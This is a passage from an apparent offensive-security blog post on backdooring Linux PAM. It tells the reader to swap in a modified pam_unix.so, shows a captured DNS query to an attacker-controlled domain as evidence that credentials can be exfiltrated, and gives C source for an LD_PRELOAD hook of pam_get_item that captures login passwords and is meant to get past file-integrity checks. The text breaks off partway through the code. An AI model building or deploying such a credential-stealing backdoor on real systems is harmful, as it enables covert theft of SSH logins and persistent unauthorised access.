 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Compile the module (./configure && make) and replace the original pam_unix.so with our version, then open a tcpdump / wireshark and log in the machine via SSH:

```
DNS	96	Standard query 0x6d43  A mothra.RabbitHunt3r.nowhere.local
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Nice! a DNS request was done, so we can exfiltrate usernames and passwords to an external server controlled by us. But now we have a problem: what happens with uppercase / lowercase / symbols used in passwords? Later in section "__0x03 Communcation with C&C__" we will discuss this point.


## 0x02 LD_PRELOAD all the things!

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In some cases another approach will be needed. If the server performs any type of file integrity check to critical binaries (as pam_unix.so and other modules are) or configuration files, we need to move to the classic LD_PRELOAD tactic. We are going to pre-load a shared object that hooks some functions used by PAM, so we can inject easily our exfiltration logic inside.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Our target function will be __pam_get_item__. When this function is called with the item type PAM_AUTHTOK as argument, it retrieves the authentication token used. We are going to hook this function, so when it is called we are going to call pam_get_user() to retrieve the username, then call the original pam_get_item (to obtain the correct return value and the authentication token), exfiltrate it via DNS and lastly return the value obtained before. Easy peasy!

```c
/* Classic LD_PRELOAD PAM backdoor with DNS exfiltration */
// Author: Juan Manuel Fernandez (@TheXC3LL)

#define _GNU_SOURCE

#include <security/pam_modules.h>  
#include <security/pam_ext.h>  
#include <security/pam_modutil.h>  
#include <stdlib.h>
#include <string.h>
#include <sys/types.h> 
#include <unistd.h>
#include <stdio.h> 
#include <dlfcn.h> 
#include <sys/stat.h>
#include <signal.h>

// Insert here all the headers and functions needed for the DNS request
//(...)


typedef int (*orig_ftype) (const pam_handle_t *pamh, int item_type,  const void **item);
 
int pam_get_item(const pam_handle_t *pamh, int item_type, const void **item) {  
    int retval;
    int pid;
    const char *name; 
    orig_ftype orig_pam;
    orig_pam = (orig_ftype)dlsym(RTLD_NEXT, "pam_get_item"); 
    
    // Call original function  so we log password
    retval = orig_pam(pamh, item_type, item);
        
    // Log credential
    if (item_type == PAM_AUTHTOK && retval == PAM_SUCCESS && *item != NULL) {   
		unsigned char hostname[256];
```